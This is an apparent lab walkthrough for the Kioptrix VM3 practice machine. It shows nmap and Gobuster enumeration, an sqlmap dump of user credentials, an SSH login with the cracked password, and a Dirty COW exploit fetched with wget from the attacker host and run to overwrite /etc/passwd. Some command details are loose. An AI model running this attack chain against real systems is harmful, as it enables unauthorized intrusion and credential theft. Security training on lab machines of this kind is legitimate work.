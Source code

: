 Kioptrix VM3 Walkthrough

Prerequisites:

1. Kioptrix VM3 image running on VMware.


2. Attacker machine (e.g., Kali Linux).


3. Basic knowledge of Linux and penetration testing tools.



1. Network Configuration and Target Information

Ensure that the Kioptrix VM3 and the attacking machine are on the same network. For this example, let's assume the target IP address of the Kioptrix VM3 is 192.168.48.149.

To identify the target’s IP address in your network, run a network scan from your attacking machine using nmap:

nmap 192.168.48.1/24 -T4

This command scans the subnet 192.168.48.1/24 with a timing option -T4 for faster results.

Sample Output:

Nmap scan report for 192.168.48.149
Host is up (0.0031s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:FD:CB:95 (VMware)

From this output, we can see that the target IP 192.168.48.149 has SSH (port 22) and HTTP (port 80) open.

2. Bind Target IP to Domain Name

Next, bind the target’s IP address to a domain name in your /etc/hosts file to make it easier to reference:

sudo nano /etc/hosts

Add the following line to the file:

192.168.48.149 kioptrix3.com

Verify the changes:

cat /etc/hosts

The output should include:

127.0.0.1 localhost
127.0.1.1 kali
::1 localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
192.168.48.149 kioptrix3.com

3. Service Enumeration (Port Scanning)

Run a full service version scan on the target to identify running services:

nmap -sV 192.168.48.149

Sample Output:

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch

From this output, we know the target is running Apache on port 80 and OpenSSH on port 22.

4. Enumerating HTTP Services

Port 80 (HTTP) is open, so we access the web application by opening a browser and navigating to:

http://kioptrix3.com/

To further enumerate hidden directories, use Gobuster with a wordlist:

gobuster dir -u http://kioptrix3.com/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

Sample Output:

/modules (Status: 301)
/gallery (Status: 301)
/data (Status: 403)
/core (Status: 301)
/style (Status: 301)
/cache (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)

Here, directories like /modules, /gallery, and /phpmyadmin stand out as interesting targets.

5. Web Application Vulnerabilities

By using Nikto to scan the /gallery directory:

nikto -h http://kioptrix3.com/gallery

Sample Nikto Output:

/gallery/: The X-Content-Type-Options header is not set.
PHP/5.2.4-2ubuntu5.6 appears to be outdated.
Apache/2.2.8 appears to be outdated.
...
/gallery/db.sql: DATABASE SQL FOUND!

We have found a SQL database located in /gallery/db.sql.

6. SQL Injection Exploitation

Using the SQLmap tool, we exploit a SQL injection vulnerability found in the URL parameter id=1 of the /gallery.php page:

sqlmap --batch --banner -u http://kioptrix3.com/gallery/gallery.php?id=1 --dump

SQLmap Output:

[INFO] fetching current database
[INFO] fetching tables for database: 'gallery'
[INFO] retrieved: 'dev_accounts'
[INFO] fetched: 'dev_accounts' table entries

SQLmap successfully extracts data from the dev_accounts table, revealing usernames and password hashes:

+----+---------------------------------------------+------------+
| id | password                                   | username   |
+----+---------------------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e (starwars) | loneferret |
+----+---------------------------------------------+------------+

We now have the username and password hash for both users.

7. Accessing SSH with Cracked Password

Using the extracted credentials, we try to log in via SSH with the username loneferret and password starwars:

ssh loneferret@192.168.48.149

If the connection fails due to an unsupported host key algorithm, use the following:

ssh loneferret@192.168.48.149 -oHostKeyAlgorithms=+ssh-rsa

Once logged in, we can explore the file system and check for privilege escalation opportunities.

8. Privilege Escalation

To elevate our privileges to root, first check the sudo privileges:

sudo -l

Output:

User loneferret may run the following commands on this host:
(root) NOPASSWD: !/usr/bin/su
(root) NOPASSWD: /usr/local/bin/ht

Since we have sudo access to /usr/local/bin/ht, we can execute this binary with root privileges.

Alternatively, we could look for SUID binaries or vulnerabilities like Dirty COW:

searchsploit linux/local/40839

Copy the exploit to your machine:

python3 -m http.server 8000
wget http://192.168.48.157:8000/40839.c

Compile and run the exploit:

gcc -pthread 40839.c -o dirty -lcrypt
./dirty /etc/passwd

This would allow us to overwrite the /etc/passwd file, granting us root access.


---

Note: The use of these tools should be restricted to authorized environments only, such as Capture the Flag (CTF) challenges, penetration testing with permission, or educational purposes. Always have explicit consent before testing systems.

